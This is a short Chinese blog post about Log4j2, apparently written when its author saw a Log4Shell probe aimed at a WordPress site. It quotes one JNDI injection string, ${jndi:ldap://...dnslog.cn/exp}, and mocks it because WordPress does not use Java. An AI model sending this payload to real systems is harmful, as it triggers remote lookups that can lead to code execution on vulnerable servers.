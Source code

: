 ```yaml
---
title: Java Log4j2
tags:
  - 日常
  - 网站
abbrlink: 722
categories:
  - - 动态
date: 2021-12-21 10:07:04
---
```


${jndi:ldap://wy2gkk.dnslog.cn/exp}

笑死，Wordpress 和 Java 有半毛钱关系
